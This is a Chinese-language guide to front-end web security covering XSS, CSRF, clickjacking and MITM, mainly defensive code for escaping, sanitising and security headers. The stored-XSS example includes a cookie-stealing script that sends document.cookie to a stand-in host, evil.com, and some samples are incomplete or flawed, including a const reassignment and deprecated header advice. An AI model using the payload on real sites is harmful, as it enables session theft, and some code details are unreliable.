

# Web 前端安全防护指南

本文档系统介绍了前端开发中常见的安全攻击类型、攻击原理以及对应的防护措施，同时提供了经过实战验证的前端安全最佳实践，帮助开发者构建更加安全可靠的前端应用。

### 1. XSS 跨站脚本攻击

XSS 漏洞的核心前提是：**网站将用户输入的不可信内容，直接当做 HTML 代码渲染到页面上**。如果只是将用户内容作为纯文本展示，是不会产生 XSS 风险的。攻击者正是利用这一点，注入恶意脚本，窃取用户信息或执行恶意操作。

#### 攻击类型

**反射型 XSS:** URL 参数直接作为 HTML 输出到页面
当后端直接把 URL 参数拼接在 HTML 中返回，或者前端直接将 URL 参数通过 `innerHTML` 等 API 插入到页面时，就会产生风险。如果只是将参数作为纯文本展示，则不会有问题。

```
攻击链接（包含恶意脚本）:
http://example.com/search?keyword=<script>alert('XSS')</script>

// ❌ 危险写法：直接将用户输入作为 HTML 渲染
// 后端代码示例
res.send(`<div>搜索结果: ${req.query.keyword}</div>`) 

// ✅ 安全写法：将用户输入作为纯文本处理
res.send(`<div>搜索结果: ${escapeHtml(req.query.keyword)}</div>`) 

结果: 如果没有转义，脚本会被浏览器当做 HTML 代码执行
```

**存储型 XSS:** 恶意脚本存储在数据库，访问时作为 HTML 输出
当用户提交的内容被存入数据库，后续其他用户访问时，系统直接将这些内容作为 HTML 渲染到页面时，就会产生风险。

根据业务场景的不同，有两种处理方式：
1. **普通文本场景**：如果不需要保留格式，直接作为纯文本存储和展示，完全避免XSS风险
2. **富文本场景**：如果确实需要存储和渲染HTML（如富文本编辑器、文章内容等），不能直接全量转义，需要对HTML内容进行净化，只保留安全的标签和属性，过滤掉所有危险的脚本相关内容

```javascript
// 用户提交包含恶意脚本的富文本内容
const userContent = `
  <p>正常评论内容</p>
  <script>fetch("http://evil.com/steal?cookie="+document.cookie)</script>
  
  
  <a href="javascript:alert('XSS')">点击中奖</a>
`

// ❌ 危险1：直接存储原始内容，展示时不做任何处理直接渲染
db.insert({ content: userContent })

// ❌ 危险2：全量转义HTML，会导致富文本格式丢失，所有标签都会被显示为文本
db.insert({ content: escapeHtml(userContent) })

// ✅ 安全方案1：存储前使用HTML净化库过滤危险内容（推荐）
// 仅保留安全的标签（p、img、a等）和属性，过滤script标签、事件属性、javascript:链接等
const safeContent = xssFilter(userContent, {
  allowedTags: ['p', 'img', 'a', 'b', 'i', 'u'],
  allowedAttributes: {
    'img': ['src', 'alt'],
    'a': ['href', 'title']
  },
  allowedSchemes: ['http', 'https', 'mailto'], // 禁止javascript:等危险协议
  stripScript: true,
  stripEventHandlers: true
})
db.insert({ content: safeContent })

// ✅ 安全方案2：展示时在前端进行HTML净化
// 如果无法在存储时处理，也可以在前端渲染前进行净化
renderHtml(xssFilter(userContent))
```

> **最佳实践**：对于富文本场景，不要自己实现过滤逻辑，推荐使用成熟的开源库如 `xss`、`DOMPurify` 等进行HTML净化，避免遗漏危险情况。

**DOM 型 XSS:** 前端 JavaScript 直接将不可信内容作为 HTML 插入 DOM
这种攻击完全发生在前端，不需要后端参与，当前端代码直接使用 `innerHTML`、`document.write` 等 API 将 URL 参数、用户输入等不可信内容插入到页面时，就会产生风险。如果使用 `textContent` 等纯文本 API 则不会有问题。

```javascript
// ❌ 危险代码：直接将URL hash内容作为HTML插入DOM
document.getElementById('output').innerHTML = location.hash.slice(1)

// ✅ 安全代码：使用textContent作为纯文本插入
document.getElementById('output').textContent = location.hash.slice(1)

// 攻击者构造的URL
http://example.com#
```

#### 防护措施

XSS防护的核心原则：**所有不可信的用户输入，永远不要直接当做HTML渲染，优先使用纯文本方式展示**。

**1. 优先使用纯文本渲染API**

```javascript
// ✅ 安全：textContent会将所有内容作为纯文本处理，自动编码特殊字符
element.textContent = userInput  

// ❌ 危险：innerHTML会将内容作为HTML解析，可能执行恶意脚本
element.innerHTML = userInput    
```

**2. 必须渲染HTML时进行输出编码**
如果业务场景确实需要渲染HTML内容，必须先对用户输入进行严格的HTML编码，将特殊字符转义为实体字符，让浏览器将其当做普通文本解析。

```javascript
// HTML 编码函数，将特殊字符转义为HTML实体
function escapeHtml(str) {
  const map = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#039;'
  }
  return str.replace(/[&<>\"']/g, char => map[char])
}

// 使用
document.getElementById('output').innerHTML = escapeHtml(userInput)
```

**3. CSP (Content Security Policy) 内容安全策略**

CSP 是浏览器层面的安全防护机制，相当于给网站建立了一个"白名单"，明确规定了网站可以加载哪些资源、执行哪些脚本。即使网站出现了XSS漏洞，CSP也能阻止恶意脚本的执行和数据外传，是XSS防护的重要兜底手段。

> **工作原理**：通过HTTP响应头或者meta标签告诉浏览器，只有在白名单中的资源才能被加载和执行，不在白名单中的资源会被浏览器直接拦截。
>
> **核心作用**：
> - 阻止未知来源的恶意脚本执行
> - 防止数据泄露到不受信任的第三方服务器
> - 即使攻击者注入了脚本，也无法执行或外传数据

```javascript
// 设置 CSP 响应头
app.use((req, res, next) => {
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; " +              // 只加载本站资源
    "script-src 'self' https://cdn.example.com; " +  // 允许指定 CDN
    "style-src 'self' 'unsafe-inline'; " +  // 允许内联样式
    "img-src 'self' data: https:; " +       // 允许图片源
    "connect-src 'self' https://api.example.com;"  // 允许 AJAX 请求
  )
  next()
})

// 前端设置 meta 标签
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self'">
```

**4. 前端框架防护**

```javascript
// React 自动转义
function Comment({ text }) {
  return <div>{text}</div>  // 安全
}

// Vue 自动转义
<template>
  <div>{{ text }}</div>  <!-- 安全 -->
</template>

// 危险! 不要使用
<div dangerouslySetInnerHTML={{__html: userInput}} />
<div v-html="userInput"></div>
```

---

### 2. CSRF 跨站请求伪造

CSRF 是一种利用用户已登录的身份，在用户不知情的情况下，诱导用户发起非自愿的恶意请求的攻击方式，常用于转账、修改密码、更改邮箱等敏感操作。

#### 攻击原理
CSRF 攻击的核心是利用浏览器的 Cookie 自动携带机制：当用户登录某个网站后，浏览器会保存该网站的 Cookie，之后用户访问任何网站时，只要向该网站发起请求，浏览器都会自动带上对应的 Cookie。

> **实际场景**：用户登录了网上银行网站 bank.com，Cookie 中保存了登录态。此时用户在同一个浏览器中打开了攻击者的网站 evil.com，该网站中隐藏了一个向 bank.com 发起转账请求的表单或图片，浏览器会自动带上 bank.com 的 Cookie 发起请求，银行服务器会认为这是用户本人的操作，从而执行转账。

完整攻击流程：


#### 防护措施
CSRF 的防护主要围绕"验证请求是否来自合法来源"和"增加攻击者无法获取的验证信息"两个方向。

**1. CSRF Token（最常用的防护方式）**
在用户访问表单页面时，后端生成一个随机的 Token 并存储在用户会话中，前端提交请求时需要携带这个 Token，后端验证 Token 是否与会话中的一致。由于攻击者无法获取到用户会话中的 Token，因此无法构造合法的请求。

```javascript
// 1. 后端在用户访问页面时生成CSRF Token并存入session
app.get('/transfer-page', (req, res) => {
  const csrfToken = crypto.randomBytes(32).toString('hex')
  req.session.csrfToken = csrfToken
  // 将Token返回给前端，可以放在响应体或meta标签中
  res.render('transfer', { csrfToken })
})

// 2. 前端提交请求时携带CSRF Token
axios.post('/transfer', {
  to: 'user123',
  amount: 100,
  csrfToken: document.querySelector('meta[name="csrf-token"]').content
})

// 3. 后端验证Token是否有效
app.post('/transfer', (req, res) => {
  if (req.body.csrfToken !== req.session.csrfToken) {
    return res.status(403).json({ error: '请求非法，CSRF验证失败' })
  }
  // Token验证通过，处理转账逻辑
})
```

**2. SameSite Cookie 属性（简单高效的防护手段）**
SameSite 是 Cookie 的一个属性，用于控制 Cookie 在跨站请求时是否被携带，可以从根本上阻止 CSRF 攻击。

```javascript
// 设置SameSite为Strict，完全禁止第三方网站携带Cookie
res.cookie('sessionId', 'abc123', {
  sameSite: 'strict',  // 最严格模式，跨站请求完全不携带Cookie
  secure: true,        // 只在HTTPS下传输
  httpOnly: true       // 禁止JavaScript读取Cookie，配合防范XSS
})

// 如果需要支持跨站跳转登录，可以设置为Lax
res.cookie('sessionId', 'abc123', {
  sameSite: 'lax'  // 宽松模式，GET请求可以携带Cookie，POST等危险请求不携带
})
```

**3. 验证请求来源（辅助验证手段）**
通过验证请求头中的 Origin 或 Referer 字段，确认请求是否来自合法的域名，作为 CSRF Token 的补充防护。

```javascript
app.post('/api/transfer', (req, res) => {
  const allowedOrigins = ['https://bank.com', 'https://m.bank.com']
  const origin = req.get('Origin') || req.get('Referer')
  
  // 检查来源是否在白名单中
  if (!origin || !allowedOrigins.some(allowed => origin.startsWith(allowed))) {
    return res.status(403).json({ error: '非法来源请求' })
  }
  
  // 来源验证通过，继续处理请求
})
```

> **注意**：Origin/Referer 可能会被浏览器或代理服务器修改，不能作为唯一的防护手段，需要配合 CSRF Token 或 SameSite Cookie 使用。

---

### 3. 点击劫持（Clickjacking）

点击劫持是一种视觉欺骗攻击，攻击者将目标网站通过透明的 iframe 嵌入到恶意页面中，诱导用户在不知情的情况下点击目标网站的按钮，执行敏感操作。

#### 攻击原理
攻击者构造一个精心设计的网页，将需要攻击的网站页面放在一个透明的 iframe 中，然后在页面上放置一些看似正常的按钮（如"领取奖品"、"点击下载"等），这些按钮的位置正好和 iframe 中目标网站的敏感操作按钮（如"转账"、"关注"、"删除"等）重合。用户点击表面上的按钮时，实际上点击的是透明 iframe 中的敏感操作按钮。

> **实际场景**：攻击者制作了一个"抢红包"的活动页面，将银行网站的转账页面放在透明的 iframe 中，"抢红包"按钮正好和转账页面的"确认转账"按钮位置重合。已登录银行网站的用户点击"抢红包"按钮时，实际上触发了转账操作，导致资金损失。

#### 防护措施
点击劫持的防护主要是禁止网站被非法嵌入到 iframe 中。

**1. X-Frame-Options 响应头**
这是最经典的点击劫持防护手段，通过HTTP响应头控制网站是否允许被嵌入iframe。

```javascript
app.use((req, res, next) => {
  // 完全禁止任何网站嵌入
  res.setHeader('X-Frame-Options', 'DENY')
  
  // 或仅允许同源网站嵌入
  // res.setHeader('X-Frame-Options', 'SAMEORIGIN')
  
  // 或仅允许指定域名嵌入
  // res.setHeader('X-Frame-Options', 'ALLOW-FROM https://trusted.com')
  
  next()
})
```

**2. CSP frame-ancestors 指令**
这是更现代、更灵活的防护方式，可以看作是 X-Frame-Options 的升级版，支持配置多个允许嵌入的域名。

```javascript
res.setHeader(
  'Content-Security-Policy',
  "frame-ancestors 'self' https://trusted.com https://partner.com"
  // 'self' 表示允许同源嵌入，后面可以添加多个信任的域名
)
```

**3. 前端JS防御（兜底方案）**
如果无法配置响应头，可以通过前端JavaScript检测当前页面是否被嵌入到iframe中，如果是则强制跳转到顶层窗口。

```javascript
// 检测当前页面是否在iframe中运行
if (window.top !== window.self) {
  // 强制将顶层页面跳转到当前页面地址
  window.top.location = window.self.location
}
```

---

### 4. 中间人攻击（MITM, Man-in-the-Middle）

中间人攻击是指攻击者在用户和服务器的通信链路中间，拦截、监听甚至篡改双方的通信数据，而用户和服务器都无法察觉。

#### 攻击原理
当用户和服务器之间的通信没有加密时，攻击者可以在网络链路的任何节点（如公共WiFi、运营商网络、路由器等）拦截通信内容，获取用户的账号密码、交易信息等敏感数据，甚至可以修改请求和响应内容，实施欺诈。

> **实际场景**：用户在咖啡厅使用公共WiFi上网，攻击者可以通过技术手段拦截用户和银行网站之间的所有通信数据。如果网站使用HTTP明文传输，攻击者可以直接看到用户输入的银行卡号、密码、转账金额等敏感信息，甚至可以修改转账请求的收款人账户。

#### 防护措施
中间人攻击的防护核心是确保通信链路的加密和可信。

**1. 全站使用 HTTPS**
这是最基础也是最重要的防护措施，HTTPS通过SSL/TLS协议对通信内容进行加密，即使被拦截也无法解密和篡改内容。

> **实施建议**：
> - 全站强制HTTPS，所有HTTP请求自动跳转到HTTPS
> - 使用安全的TLS版本（TLS 1.2及以上），禁用不安全的SSL协议
> - 定期更新服务器证书，使用权威CA机构颁发的证书

**2. HSTS（HTTP严格传输安全）**
HSTS可以强制浏览器始终使用HTTPS访问网站，即使用户输入HTTP地址或者点击HTTP链接，浏览器也会自动转为HTTPS请求，防止降级攻击。

```javascript
res.setHeader(
  'Strict-Transport-Security',
  'max-age=31536000; includeSubDomains; preload'
  // max-age: 强制HTTPS的有效期，单位秒（这里是1年）
  // includeSubDomains: 包含所有子域名
  // preload: 允许加入浏览器的HSTS预加载列表
)
```

**3. 证书绑定（Certificate Pinning）**
对于移动端应用或对安全性要求极高的场景，可以将服务器的证书公钥固定在客户端中，只有当服务器证书的公钥与客户端存储的一致时才建立连接，防止使用伪造的证书进行中间人攻击。

```javascript
// Node.js示例：在发起请求时固定证书公钥
const https = require('https')
const fs = require('fs')

const options = {
  hostname: 'api.example.com',
  port: 443,
  path: '/',
  method: 'GET',
  // 固定信任的服务器证书，只接受这个证书的连接
  ca: fs.readFileSync('trusted-server-cert.pem')
}

https.request(options, (res) => {
  // 处理响应
})
```

> **注意**：证书绑定虽然安全，但如果服务器证书需要更换，需要提前更新客户端中的证书信息，否则会导致用户无法访问。

---

## 四、前端安全最佳实践

前端安全是一个系统性工程，需要在开发的各个环节都保持安全意识，以下是经过实战验证的最佳实践，可以帮助你搭建更加安全的前端应用。

### 1. 敏感数据处理原则
前端作为用户直接接触的层面，不可避免地会处理各种敏感数据，处理不当很容易造成数据泄露。

> **核心原则**：前端不存储任何敏感数据，所有敏感数据只在必要时传输，用完即毁。

```javascript
// ❌ 绝对禁止在前端持久化存储敏感信息
localStorage.setItem('password', password)       // 禁止存储密码
localStorage.setItem('creditCard', cardNumber)   // 禁止存储银行卡号
localStorage.setItem('idCard', idCardNumber)     // 禁止存储身份证号

// ✅ 仅存储非敏感的访问凭证
localStorage.setItem('accessToken', token)  // 可以存储无敏感信息的JWT token
// 建议token设置合理的过期时间，降低泄露风险

// ✅ 敏感操作必须二次验证
async function transferMoney() {
  // 转账、修改密码等敏感操作，必须让用户再次输入密码或验证码
  const payPassword = prompt('请输入支付密码')
  const verifyCode = await sendSmsVerifyCode()
  
  const result = await api.transfer({
    amount: 100,
    payPassword,  // 密码只在内存中临时存在，使用后立即销毁
    verifyCode
  })
  
  // 使用完后立即清除敏感变量
  payPassword = null
}

// ✅ 会话结束及时清理数据
// 用户退出登录时，清除所有本地存储的数据
function logout() {
  localStorage.clear()
  sessionStorage.clear()
  // 清除所有Cookie
  document.cookie.split(';').forEach(cookie => {
    const [name] = cookie.split('=')
    document.cookie = `${name}=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;`
  })
}
```

### 2. 第三方资源安全管理
现代前端应用通常会引入很多第三方脚本、样式、图片等资源，这些第三方资源可能存在安全风险，需要严格管控。

> **风险提示**：如果第三方资源被篡改，可能会直接导致XSS攻击、数据泄露等严重安全问题。

```html
<!-- ✅ 使用SRI（子资源完整性）校验第三方脚本的完整性 -->
<!-- 当CDN上的脚本被篡改时，浏览器会拒绝执行 -->
<script 
  src="https://cdn.example.com/jquery.min.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous">
</script>

<!-- ✅ 对于非关键的第三方脚本，使用async或defer异步加载 -->
<script async src="https://cdn.example.com/analytics.js"></script>

<!-- ✅ 优先使用己方CDN或信任度高的官方CDN -->
<!-- ❌ 不要使用来源不明、不知名的CDN资源 -->
```

### 3. 安全响应头配置
通过配置HTTP安全响应头，可以让浏览器自动应用各种安全防护策略，是成本最低、效果最显著的安全防护手段。

对于Node.js/Express应用，推荐直接使用`helmet`中间件，它会自动设置大部分安全响应头，无需手动配置。

```javascript
// ✅ Express应用推荐使用helmet中间件，一键配置安全响应头
const helmet = require('helmet')
app.use(helmet())  // 一行代码开启大部分安全防护

// 如果需要自定义配置，可以手动设置这些响应头
app.use((req, res, next) => {
  // 开启浏览器内置的XSS防护
  res.setHeader('X-XSS-Protection', '1; mode=block')
  
  // 禁止浏览器自动猜测MIME类型，防止上传恶意文件
  res.setHeader('X-Content-Type-Options', 'nosniff')
  
  // 禁止页面被嵌入iframe，防止点击劫持
  res.setHeader('X-Frame-Options', 'DENY')
  
  // 内容安全策略，限制资源加载和脚本执行
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self' https://cdn.example.com; img-src 'self' data: https:"
  )
  
  // 强制HTTPS访问，有效期1年
  res.setHeader(
    'Strict-Transport-Security',
    'max-age=31536000; includeSubDomains'
  )
  
  next()
})
```

### 4. 开发阶段安全规范
在开发阶段就融入安全意识，可以从根源上避免大部分安全漏洞。

> **开发Checklist**：
> - ✅ 所有用户输入都要做合法性校验，包括长度、格式、特殊字符等
> - ✅ 所有输出到页面的内容都要做适当的编码转义
> - ✅ 不使用`eval()`、`new Function()`等动态执行代码的API
> - ✅ 不使用`innerHTML`、`document.write()`等会直接解析HTML的API，除非内容是完全可控的
> - ✅ 依赖包定期更新，及时修复已知的安全漏洞（使用`npm audit`或`snyk`检测）
> - ✅ 上线前进行安全扫描，使用自动化工具检测常见的安全漏洞

---

安全无小事,前端安全需要开发者在每个环节都保持警惕。